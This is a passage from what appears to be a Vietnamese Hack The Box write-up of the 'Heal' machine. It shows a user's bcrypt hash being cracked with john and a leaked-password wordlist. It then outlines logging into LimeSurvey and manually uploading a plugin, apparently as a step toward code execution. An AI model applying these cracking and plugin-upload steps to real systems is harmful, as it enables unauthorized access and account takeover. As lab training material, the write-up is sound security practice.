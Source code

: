 ![ten](/assets/img/2025-01-07-HTB-Heal/10.webp)

Tôi đã có được hash của user *ralph*. Sử dụng `john` để crack nó

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ cat hash
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG

┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
147258369        (?)
1g 0:00:00:05 DONE (2025-03-22 14:52) 0.1960g/s 105.8p/s 105.8c/s 105.8C/s aaliyah..miranda
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Đăng nhập vào Limesurvey theo đường dẫn trong file `exploit.py`

Thử upload thủ công plugin: Configuration -> Plugins -> Upload & install
